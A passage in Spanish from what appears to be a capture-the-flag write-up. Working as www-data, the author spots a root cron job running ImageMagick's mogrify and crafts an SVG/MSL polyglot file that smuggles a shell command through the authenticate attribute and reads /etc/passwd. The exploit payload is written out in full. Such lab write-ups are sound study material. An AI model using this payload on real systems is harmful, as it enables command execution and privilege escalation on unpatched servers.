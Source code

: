 Lanzamos el programa:
```
www-data@meta:/dev/shm$ ./procmon.sh
> /usr/sbin/CRON -f
> /usr/sbin/CRON -f
> /usr/sbin/CRON -f
> /usr/sbin/CRON -f
> /bin/sh -c cp -rp ~/conf/config_neofetch.conf /home/thomas/.config/neofetch/config.conf
> /bin/sh -c /usr/local/bin/convert_images.sh
> /bin/bash /usr/local/bin/convert_images.sh
> /usr/sbin/CRON -f
> /bin/sh -c /usr/local/bin/convert_images.sh
> /bin/bash /usr/local/bin/convert_images.sh
^Z
[1]+  Stopped                 ./procmon.sh
www-data@meta:/dev/shm$ kill %

[1]+  Stopped                 ./procmon.sh
```
Se está ejecutando un programa llamado convert_images.sh
```
www-data@meta:/dev/shm$ ls -l /usr/local/bin/convert_images.sh
-rwxr-xr-x 1 root root 126 Jan  3  2022 /usr/local/bin/convert_images.sh
[1]+  Terminated              ./procmon.sh

www-data@meta:/dev/shm$ cat /usr/local/bin/convert_images.sh
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```
El archivo es del usuario root, no tenemos permisos de escritura sobre él. Parece que se dirige a la carpeta /var/www/dev01.artcorp.htb/convert_images/  para luego ejecutar sobre ella el comando mogrify, ¿qué es mogrify?. Es una de las herramientas que forman parte de ImageMagick y se utiliza para pasar imágenes a otros formatos(como pdf,word,etc). Me suena que ImageMagick ya lo he tocado alguna vez y que tenía vulnerabilidades.  
Primero miro la versión:
```
www-data@meta:/dev/shm$ mogrify --version
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
Copyright: © 1999-2020 ImageMagick Studio LLC
```
Muy bien, ahora realizo la siguiente búsqueda por google; **imagemagick 7.0.10 exploit github**. Salen unos cuantos resultados interesantes, me quedaré con el segundo, que dice Shell Inyection via PDF. Dentro de él hay un enlace a un blog, me voy a fiary entro. Leyendo un rato me convence la parte que pone **SVG MSL polyglot file:** e intento hacer lo mismo.

``` 
www-data@meta:/dev/shm$ cd /var/www/dev01.artcorp.htb/convert_images/
www-data@meta:/dev/shm$ touch poc.svg
www-data@meta:/dev/shm$ nano poc.svg
```
Y meto lo siguiente en el poc.svg:
``` 
<image authenticate='ff" `id > /dev/shm/soyyo`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```